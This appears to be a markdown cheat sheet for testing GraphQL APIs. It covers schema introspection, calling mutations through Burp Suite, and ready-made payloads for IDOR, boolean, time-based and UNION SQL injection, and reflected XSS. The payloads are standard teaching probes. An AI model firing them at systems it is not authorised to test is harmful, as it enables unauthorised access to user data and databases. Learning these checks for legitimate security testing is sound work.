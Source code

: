 ```markdown
# GraphQL Introspection

- As soon as you reach the GraphQL endpoint, paste this code: Go to GraphQL Introspection Code node.
- After that, go to [https://graphql-kit.com/graphql-voyager/](https://graphql-kit.com/graphql-voyager/) and paste the output you got from the code into the introspection section.
- Change Schema -> Introspection -> Paste (Paste introspection output).

**Note:** The usage in Burp Suite is different from using a GraphQL GUI website. On the website, you write the query like this:
```graphql
{
  users {
    id
    name
    email
  }
}
```
But in Burp Suite, everything has to be on the same line, and you separate fields like `id` and `name` with `\n`. Also, you must start the query with the word `query`, like this:
```json
{"query":"query { users { id\nname\nemail } }"}
```

# GraphQL Mutation

- Find the available mutation name. Usually, it will be something like: `createUser`, `registerUser`, or `signUp`.
- To find the mutation name, you need to write this code: Go to Mutation Code node.

Example:  
If you found a mutation called `createUser` and its input is `createUserInput`, you can write this code to know what fields are available:

```graphql
{
  __type(name: "createUserInput") {
    name
    inputFields {
      name
      description
      defaultValue
    }
  }
}
```

Let’s assume the outputs are `name`, `email`, and `password`. We can write this code to add a user with those values:

```graphql
mutation {
  createUser(input: {name: "Ahmed", email: "ahmed@example.com", password: "123456"}) {
    users {
      id
      name
      email
    }
  }
}
```

In Burp:
- Set the Content-Type header to: `application/json`
- Use this payload:
```json
{"query": "mutation { createUser(input: { name: \"Ahmed\", email: \"ahmed@example.com\", password: \"123456\" }) { id name email } }"}
```

Then check the response: If the server returns the requested data (like id, name, email), then the mutation worked successfully.

---

# GraphQL Exploitation Scenarios

## Important Notes:
- If you want to include quotation marks inside a string, you need to use `\"` instead of `"` to avoid conflicts.
- To add special characters like `"` or `\n`, use the backslash `\`.
- If the string inside the query contains quotation marks, escape them with `\`.

Example:
```json
{"query": "{ user(name: \"Exp8Bits\") { id name email } }"}
```

To add a new line:
```json
{"query": "{ user(id: 1) { name \n email } }"}
```

To include `\"` or `\`, escape it:
```json
{"query": "{ user(id: \"123\") { name email } }"}
```

---

## 1) Insecure Direct Object Reference (IDOR):

- Try to access another user's information by modifying the `id` or any identifier in the query.

Example:
```json
{"query":"{ user(id:2) { id name email } }"}
```

If you can see another user's data, it means the server is not performing proper authorization checks, which is an IDOR vulnerability.

---

## 2) SQL Injection:

- If the GraphQL query interacts with the database insecurely, you might retrieve or manipulate unauthorized data.

Original query:
```json
{"query":"{ user(id: 1) { id name email } }"}
```

Boolean-Based (Burp Suite):
```json
{"query":"{ user(id: \"1' OR '1'='1\") { id name email } }"}
```

Time-Based (Burp Suite):
```json
{"query":"{ user(id: \"1' AND IF(1=1, SLEEP(5), 0) --\") { id name email } }"}
```

Another Time-Based:
```json
{"query":"{ user(username: \"admin' and SLEEP(5) -- -\") {id} }"}
```

Union Injection (Burp Suite):
```json
{"query":"{ user(username: \"x' UNION SELECT 1,2,GROUP_CONCAT(table_name),4,5,6 FROM information_schema.tables WHERE table_schema=database()-- -\") {username} }"}
```

Browser/GUI version:
```graphql
{
  user(id: "1' OR '1'='1") {
    id
    name
    email
  }
}
```

---

## 3) Cross-Site Scripting (XSS):

- If the application reflects user input (like name, email), try injecting JavaScript code.

Original:
```json
{"query":"{ user(id: 1) { id name email } }"}
```

Injected:
```json
{"query":"{ user(id: \"<script>alert('XSS Attack!')</script>\") { id name email } }"}
```

If the server doesn’t sanitize output, the script will execute in the browser when the data is displayed.
```
